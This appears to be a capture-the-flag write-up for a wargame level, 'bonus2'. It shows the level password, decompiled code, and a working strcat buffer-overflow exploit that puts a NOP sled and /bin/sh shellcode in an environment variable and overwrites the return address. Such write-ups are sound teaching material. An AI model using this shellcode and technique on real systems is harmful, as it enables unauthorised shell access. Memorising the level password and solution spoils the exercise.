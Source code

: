 # Bonus 2
*password : 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245*

```
$ scp -P 4242 bonus2@192.168.56.108:bonus2 binary/
```

## Analyze

in greetuser() :
```
  if (language == 1) {
    local_4c = 0xc3767948;
    ...
  }
  else {
    if (language == 2) {
      local_4c = 0x64656f47;
      ...
    }
    else {
      if (language == 0) {
        local_4c = 0x6c6c6548;
        ...
      }
    }
  }
strcat(&local_4c,&stack0x00000004);
puts(&local_4c);
...
```

```
$ ./bonus2 test ok
Hello test
```

conclusion :
- language = 0
- local_4c = "Hello "
- &stack0x00000004 = av[1]

## Buffer overflow : strcat exploit

- find the correct length of the first parameter to overwrite all '/0' until the second parameter => `40`
- use the second parameter to launch the shellcode
    - find the offset => `26`
    - get the shellcode address => `0xbffff83f`
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
$ /tmp/a.out
0xbffff83f
$ ./bonus2 $(python -c 'print "\x42" * 40') $(python -c 'print "\x42" * 26 + "\x3f\xf8\xff\xbf"')
```
